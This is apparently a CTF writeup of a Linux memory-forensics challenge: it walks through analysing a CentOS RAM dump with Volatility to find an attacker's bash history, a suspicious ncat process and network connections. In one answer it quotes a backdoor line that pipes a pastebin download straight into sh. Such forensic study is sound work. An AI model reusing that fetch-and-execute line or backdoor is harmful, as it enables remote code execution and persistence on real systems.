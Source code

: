 ```yaml
---
layout: post
title: Cyberdefender | seized
published: true
---
```




## [](#header-2)Foreword. 
This is a writeup of the seized challenge. It comes from the CTF sharkCTF of 2019, and has been slightly modified. I would like to thank the creator of this challenge (2phi and Nofix). 

## [](#header-2)Introductions.
The objective of this challenge is to analyze a RAM dump, based on a CentOS system. 
The tools used will be the following 
- volatility V2 (https://github.com/volatilityfoundation/volatility)
- cyberchef (https://gchq.github.io/CyberChef/)
- grep (bmV2ZXIgZ29ubmEgZ2l2ZSB5b3UgdXA=)



## [](#header-2) Create custom Image

As explained above we are going to use volatility on a CentOS system. Unfortunately the Centos "profile" does not exist by default and we need a profile to be able to use volatiliy. 

The creators of the challenge were kind enough to give us all the files to create a custom profile. These are the following files: 
- module.dwarf
- System.map-3.10.0-1062.el7.x86_64

A complete procedure for creating a custom profile from a file is available [here](https://tunnelix.com/linux-memory-analysis-with-lime-and-volatility/), but we can summarize the creation of the profile with the following command

```
zip .\volatility\volatility\plugins\overlays\linux\Centos7.3.10.1062.zip .\c73-EZDump\Centos7.3.10.1062\module.dwarf .\c73-EZDump\Centos7.3.10.1062\boot\System.map-3.10.0-1062.el7.x86_64
```

Great now we have our custom profiles. 

## [](#header-2) Q1 : What is the CentOS version installed on the machine?

We can see that the file name is "Centos7.3.10.1062". 
Spoiler it is not the name of the version.
The real answer is on the wikipedia page of centos we can see that the name corresponds to the version 7.7.1908 of centos 

## [](#header-2) Q2 : There is a command containing a strange message in the bash history. Will you be able to read it?

Finally, let's start digging. 

Here is the command we will use 
python2 volatility/vol.py -f c73-EZDump/dump.mem --profile=LinuxCentos7_3_10_1062x64 linux_bash

- python2 volatility/vol.py = launch volatility. 
- -f c73-EZDump/dump.mem = specify the file to analyze
- --profile=LinuxCentos7_3_1062x64 = the created cutom profile 
- linux_bash = the command that allows to see the history of bash commands. 

![Q2](/assets/Q2-seized.jpg)

## [](#header-2) Q3 : What is the PID of the suspicious process?

So first we need to list the processes with linux_pstree and see if any can be interpreted as odd or inappropriate. 
The command. 
```
python2 volatility/vol.py -f c73-EZDump/dump.mem --profile=LinuxCentos7_3_10_1062x64 linux_pstree
```

![ncat ? weird isn't it ?](/assets/Q3-seized.png)
ncat ? weird isn't it ?

## [](#header-2) Q4 : The attacker downloaded a backdoor to gain persistence. What is the hidden message in this backdoor?

Remenber the bash history ? 
```
    2622 bash                 2020-05-07 14:56:25 UTC+0000   git clone https://github.com/tw0phi/PythonBackup
```
The attacker had to install elements of this guithub repository. 

Looking at the repository in the file app/snapshot.py we can see that the content of a pastebin has been downloaded.
```
os.system('wget -O - https://pastebin.com/raw/nQwMKjtZ 2>/dev/null|sh')
```
Go to the url and you have the flag. 

## [](#header-2) Q5 : What are the attacker's IP address and the local port on the targeted machine?

To view the content of the current network exchanges at the time of the dump, the linux_netstat command exists.

![12345 that some weird port](/assets/Q3-seized.png)

12345 that some weird port. 